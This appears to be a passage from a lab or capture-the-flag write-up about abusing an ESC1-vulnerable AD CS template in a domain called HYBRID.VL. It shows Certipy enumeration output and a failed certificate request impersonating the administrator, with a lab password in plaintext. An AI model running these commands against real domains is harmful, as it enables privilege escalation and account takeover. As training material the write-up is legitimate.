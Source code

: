 ```
        Enrollment Rights               : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Domain Computers
                                          HYBRID.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : HYBRID.VL\Administrator
        Write Owner Principals          : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Dacl Principals           : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Property Principals       : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'HYBRID.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

Failed to request the certificate for `peter.turner` using the below command:

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/bloodhound/certipy]
└─$ certipy-ad req -u 'peter.turner'@HYBRID.VL -p"b0cwR+G4Dzl_rw" -dc-ip 10.10.155.165 -ca hybrid-DC01-CA -template HybridComputers -upn administrator -target 10.10.155.165 -key-size 4096 

Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 9
Would you like to save the private key? (y/N) [*] Saved private key to 9.key
[-] Failed to request certificate

```

Also failed to import the Certipy BloodHound output.
